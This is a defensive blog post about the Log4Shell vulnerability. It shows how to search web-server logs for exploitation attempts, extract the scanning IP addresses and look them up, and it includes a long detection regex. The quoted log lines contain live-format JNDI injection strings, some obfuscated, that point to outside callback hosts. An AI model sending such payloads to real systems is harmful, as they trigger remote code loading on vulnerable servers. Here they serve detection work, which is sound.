 During this year's Advent the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability was discovered. It's a vulnerability with high impact. This is because of three factors. It allows an attacker to run arbitrary code (downloaded from LDAP servers) on the victim's system. Log4j is a logging library used by lots of programs. It's easy to exploit. The way to fix this vulnerability is upgrade the log4j library to the latest version.

To find out if someone is trying to exploit this vulnerability in your system you can review your logs. For example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:'
Dec 12 05:34:35 cloud waf[638]: 165.22.201.45 - - [12/Dec/2021:05:34:35 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world80.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 00:51:28 cloud waf[638]: 157.245.108.40 - - [13/Dec/2021:00:51:28 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world443.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 05:01:39 cloud waf[638]: 45.83.64.19 - - [13/Dec/2021:05:01:39 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 444 0 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

These are logs from NGINX web server. There is no Java running on this system but the Internet is being scanned en masse. The web server is returning 444 because it's configured like this:

```
# Just close connection if the server is accessed via IP address or via the
# wrong hostname. _ is just an invalid value which will never trigger on a real
# hostname.
server {
    listen 443 default_server;
    server_name _;
    return 444;
}
```

If you are curious who is making these requests you can pull out the IP addresses from the logs, for example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq
157.245.108.40
165.22.201.45
45.83.64.19
```

To discover information about the IP addresses you might find [checkip](https://github.com/jreisinger/checkip) useful:

```sh
$ for ip in $(sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
---[157.245.108.40]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Bengaluru, country: India (IN)
ping            0% packet loss, sent 5, recv 5, avg round-trip 141 ms
shodan.io       OS: n/a, 1 open port: tcp/4646
urlscan.io      0 related URLs
virustotal.com  network: 157.245.0.0/16, SAN: knrao.in, cpanel.knrao.in, cpcalendars.knrao.in, cpcontacts.knrao.in, mail.knrao.in, webdisk.knrao.in, webmail.knrao.in, www.knrao.in
Malicious       38% 🤏
---[165.22.201.45]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Amsterdam, country: Netherlands (NL)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: Ubuntu, 4 open ports: tcp/22 (OpenSSH, 8.2p1 Ubuntu-4ubuntu0.2), tcp/80 (Apache httpd, 2.4.51), tcp/443 (Apache httpd, 2.4.7), tcp/465 (Exim smtpd, 4.94.2)
urlscan.io      0 related URLs
virustotal.com  network: 165.22.0.0/16, SAN: *.adleon2jnbvsh.com, adleon2jnbvsh.com
Malicious       38% 🤏
---[45.83.64.49]---
abuseipdb.com   domain: n/a, usage type: n/a
iptoasn.com     AS description: ALPHASTRIKE-RESEARCH
maxmind.com     city: n/a, country: Germany (DE)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: n/a, 1 open port: tcp/179
urlscan.io      0 related URLs
virustotal.com  network: 45.83.64.0/22, SAN: n/a
Malicious       50% 🚫
```

More sophisticated exploits and evasion thechniques are being [discovered](https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/). So instead of the simple `\$\{jndi:` regex you can use [this](https://github.com/back2root/log4shell-rex) monster:

```sh
$ sudo journalctl --since 2021-12-09 | perl -lne '/(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))/ && print'
```
